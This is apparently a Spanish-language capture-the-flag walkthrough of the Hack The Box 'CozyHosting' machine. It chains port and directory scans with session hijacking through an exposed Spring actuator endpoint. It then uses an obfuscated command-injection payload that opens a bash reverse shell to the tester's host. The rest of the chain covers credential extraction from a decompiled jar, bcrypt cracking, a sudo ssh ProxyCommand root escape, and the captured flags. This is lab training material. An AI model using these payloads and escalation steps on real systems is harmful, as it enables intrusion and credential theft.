 `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allPorts`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:01 -03
Initiating SYN Stealth Scan at 20:01
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 8888/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Discovered open port 8000/tcp on 10.10.11.230
Completed SYN Stealth Scan at 20:01, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-09 20:01:42 -03 for 15s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8000/tcp open  http-alt       syn-ack ttl 63
8888/tcp open  sun-answerbook syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
           Raw packets sent: 71989 (3.168MB) | Rcvd: 71791 (2.872MB)
```

```bash
nvim /etc/hosts
cozyhosting.htb
```

[http://cozyhosting.htb/](http://cozyhosting.htb/)

`nmap -p 22,80,8000,8888 -n -Pn -sCV --min-rate 5000 10.10.11.230 -oN targeted`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:10 -03
Nmap scan report for 10.10.11.230
Host is up (0.16s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  http            SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
8888/tcp open  sun-answerbook?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.85 seconds
```

`gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20`

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/12/09 20:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431] 
/admin                (Status: 401) [Size: 97]   
/logout               (Status: 204) [Size: 0]    
/error                (Status: 500) [Size: 73]   
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]  
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]  
/%C0                  (Status: 400) [Size: 435]  
Progress: 66949 / 220561 (30.35%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                 
===============================================================
2023/12/09 20:42:46 Finished
===============================================================
```

`dirsearch -u http://cozyhosting.htb`

```bash
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/cozyhosting.htb/_23-12-09_21-29-22.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-09_21-29-22.log

Target: http://cozyhosting.htb/

[21:29:23] Starting: 
[21:29:35] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:29:39] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:29:40] 400 -  435B  - /a%5c.aspx
[21:29:41] 200 -  634B  - /actuator
[21:29:41] 200 -    5KB - /actuator/env
[21:29:41] 200 -   15B  - /actuator/health
[21:29:41] 200 -   10KB - /actuator/mappings
[21:29:42] 200 -   98B  - /actuator/sessions
[21:29:42] 200 -  124KB - /actuator/beans
[21:29:42] 401 -   97B  - /admin
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:30:01] 500 -   73B  - /error
[21:30:02] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:30:02] 200 -    0B  - /extjs/resources//charts.swf
[21:30:05] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:30:06] 200 -   12KB - /index
[21:30:08] 200 -    4KB - /login
[21:30:08] 200 -    0B  - /login.wdm%2e
[21:30:09] 204 -    0B  - /logout
[21:30:19] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed
<dirsearch.dirsearch.Program object at 0x7f4c978d4b80>
```

[http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions)

```bash
AB7F8F8A0FC69FF5B97CB969B3A1298F	"UNAUTHORIZED"
251BBD1B1E1BBFFA5A4AA34F8DB4EC12	"UNAUTHORIZED"
65863FCFFD32AA46AE8234FCB285B739	"UNAUTHORIZED"
F99CF05847D0C79B554F3C58AAFC0D7A	"kanderson"
```

`JSESSIONID:"F99CF05847D0C79B554F3C58AAFC0D7A"`

[http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

`echo "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1" | base64`
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNzc3NyAwPiYxCg==" | base64 -d | bash`
`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg=="|base64${IFS}-d|bash;`
`%3becho${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg%3d%3d"|base64${IFS}-d|bash%3b`

Tratamiento de la TTY
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

```bash
cd /app
ls -l
cloudhosting-0.0.1.jar

python3 -m http.server 80
```

```bash
wget http://<ip-victima>/<port>/cloudhosting-0.0.1.jar
```

[https://java-decompiler.github.io/](https://java-decompiler.github.io/)

`java -jar jd-gui-1.6.6.jar`

application.properties
```
```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

scheduled/FakeUser.class
```java
username -> kanderson
password -> MRdEQuv6~6P9
```

`psql "postgresql://postgres:Vg&nvzAQ7XxR@127.0.0.1:5432/cozyhosting"`

```bash
\l
\c cozyhosting
\dt
\d users
SELECT * FROM users;

   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt admin

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:12 DONE (2023-12-13 09:22) 0.07710g/s 216.4p/s 216.4c/s 216.4C/s hellomoto..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
su josh
manchesterunited
```

```bash
cd /home/jose
cat user.txt
```

> [!IMPORTANT] User flag: c07db06d197bee1a21bfdad6494b6519

```bash
sudo -l
manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

```bash
cd /root
cat root.txt
```

> [!IMPORTANT] Root flag: 6b8ccb9c26ebf11122a9e82977301258

